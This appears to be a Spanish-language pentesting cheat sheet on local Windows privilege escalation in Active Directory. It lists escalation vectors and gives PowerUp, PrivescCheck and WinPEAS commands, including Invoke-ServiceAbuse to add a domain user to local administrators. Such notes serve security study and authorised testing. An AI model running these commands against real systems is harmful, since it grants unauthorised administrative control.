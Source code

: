# Privilege Escalation - Local 

Tags: #AD #Windows #Powershell #PowerUP #PrivEsc #WinPEAS #PrivEsc 

```bash 
Hay diferentes maneras de escalar privilegios localmente en Windows:

1. Parches faltantes 
2. Despliegue automatico y 'AutoLogon' password en texto claro 
3. AlwaysInstallElevated (Cualquier usuario puede correr MSI como SYSTEM)
4. Servicio mal configurados 
5. DLL Hijacking y mas 
6. Kerberos y NTLM relaying 
```

```powershell 
❯ Get-WmiObject -Class win32_service | select pathname 
❯ sc.exe sdshow snmptrap   
```

```powershell 
Problemas de servicios 

❯ Get-ServiceUnquoted -Verbose          # Obtener servicios con rutas entre comillas y un espacio en sus nombres 
❯ Get-ModifiableServiceFile -Verbose    # Obtener servicios donde el usuario actual puede escribir en su ruta binaria o cambiar los argumentos del binario 
❯ Get-ModifiableService -Verbose        # Obtener los servicios cuya configuración puede modificar el usuario actual 
```

## PowerUP

* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

```powershell
❯ Invoke-Allchecks
```

```powershell
# Si se encuentra un servicio corriendo en el escaneo de PowerUp y tiene estas caracteristicas (AbuseFunction, CanRestart y Check) de la siguiente manera, se podría abusar para escalar privilegios:

	ServiceName:  
	Path: 
	StartName: 
	AbuseFunction: Invoke-ServiceAbuse -Name 'ServiceName'
	CanRestart: True
	Name: 
	Check: Modifiable Services 

❯ help Invoke-ServiceAbuse      # Mirar ejemplos de los diferentes comandos 
❯ Invoke-ServiceAbuse -Name 'ServiceName' -Username "dcorp\user" -Verbose    # Agregar al usuario actual del dominio al grupo de administrador local 


Notas: 
	1. Se debe salir y volver a iniciar sesión
```

```powershell 
❯ . Find-PSRemotingLocalAdminAccess.ps1       # Importar el módulo 
❯ Find-PSRemotingLocalAdminAccess -Verbose    # Listar servidores del DC donde se tiene acceso administrativo local 
```

## Privesc 

* [Privesc](https://github.com/itm4n/PrivescCheck)

```powershell 
❯ Invoke-PrivEscCheck 
```

## WinPEAS 

* [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```powershell 
❯ winPEASx64.exe    
```
